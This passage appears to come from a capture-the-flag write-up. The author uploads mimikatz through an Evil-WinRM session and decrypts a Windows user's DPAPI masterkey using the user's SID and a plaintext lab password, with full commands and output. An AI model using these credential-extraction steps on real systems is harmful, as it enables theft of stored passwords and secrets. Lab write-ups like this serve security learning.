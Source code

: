 I follow this **HackTricks** [tutorial](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/dpapi-extracting-passwords.html) to crack these credential files.

The masterkey:

```powershell
C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407
```

The user's SID:

```
S-1-5-21-1487982659-1829050783-2281216199-1107
```

As I have the session password, I can decrypt the masterkey with `mimikatz`.
I first upload it.

```bash
*Evil-WinRM* PS C:\Users\steph.cooper\Documents> upload /workspace/puppy/mimikatz/x64/mimikatz.exe

Warning: Remember that in docker environment all local paths should be at /data and it must be mapped correctly as a volume on docker run command

Info: Uploading /workspace/puppy/mimikatz/x64/mimikatz.exe to C:\Users\steph.cooper\Documents\mimikatz.exe

Data: 1666740 bytes of 1666740 bytes copied

Info: Upload successful!
```

Then I launch `mimikatz` by specifying the masterkey path, the user's SID and his password.

```
.\mimikatz.exe "dpapi::masterkey /in:C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407 /sid:S-1-5-21-1487982659-1829050783-2281216199-1107 /password:ChefSteph2025! /protected" "exit"

  .#####.   mimikatz 2.2.0 (x64) #18362 Feb 29 2020 11:13:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(commandline) # dpapi::masterkey /in:C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407 /sid:S-1-5-21-1487982659-1829050783-2281216199-1107 /password:ChefSteph2025! /protected

<SNIP>

[masterkey] with password: ChefSteph2025! (protected user)
  key : d9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84
  sha1: 3c3cf2061dd9d45000e9e6b49e37c7016e98e701

mimikatz(commandline) # exit
Bye!
```
